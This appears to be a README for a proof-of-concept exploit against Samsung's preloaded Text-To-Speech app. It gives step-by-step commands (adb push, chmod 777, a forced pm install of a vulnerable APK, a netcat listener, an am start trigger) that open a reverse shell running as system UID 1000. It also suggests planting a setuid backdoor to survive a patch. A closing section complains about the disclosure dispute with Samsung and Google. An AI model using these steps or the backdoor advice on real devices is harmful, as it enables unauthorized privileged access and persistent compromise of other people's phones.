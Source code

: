 # K0mraid3s_System_Shell-Source
 Source code for K0mraid3s 2023 System Shell PoC
As seen on XDA before the public disclousure was removed by XDA Moderators, thankfully, its been patched as of 02/2023

If you just need this prebuilt, see this repo https://github.com/k0mraid3/K0mraid3s-System-Shell

This PoC Should point at localhost port 9997, so nc -lp 9997 into it once built. 

Step 1 - Install the included "komraids_POC_V1.6.apk" to the device, then push the included "samsungTTSVULN2.apk" to /data/local/tmp (adb push samsungTTSVULN2.apk /data/local/tmp) -> Chmod 777 /data/local/tmp/samsungTTSVULN2.apk >>> I advice disabling all battery optimizations for Samsung TTS and Shell, otherwise, it cuts off the shell from time to time.

Step 2 - Make sure ADB is on, Connected and authorized and all power saving is off (as mentioned above) Reboot device.

Step 4 - When device reboots, run this command from ADB. adb shell pm install -r -d -f -g --full --install-reason 3 --enable-rollback /data/local/tmp/samsungTTSVULN2.apk ---> it will return "Success" when done.

Step 5 - Now, open two shells, in the first, do nc -lp 9997 & in the second, do am start -n com.samsung.SMT/.gui.DownloadList -> Look back at the first shell., it should have opened into a new system (UID 1000) shell.

Some things to note: We can use localhost or staric IP, this basically uses a trick with the libmstring and netcat to open a reverse shell in the context of Samsung Text-To-Speech, a preloaded system app on all samsung mobile devices. Once as system, we could find a dir/make a dir somewhere, with a script to get back in, chmod a+s and make a backdoor to outlive a patch of this too...

Its hit or miss, this thing has a personality of its own sometimes in the  sense it will work, or it wont, just keep trying to nc -lp into the shell, its there.

About this project:
Its full or drama and BS. I reported this to Samsung in October 2022, but they have decided this is GOOGLES problem and forgot to tell me their decision. LONG STORY CUT SHORT, Between the time Samsung decided this was GOOGLES problem and them telling me of that decision, somehow, "another external security researcher" reported this exact thing to google in the context it was their find. IDK who, nor do I really care at this point. Its done and over with, but stuff like this is what makes some security researches ever hesitant to share their finds, even with the shady vendors/OEMS.
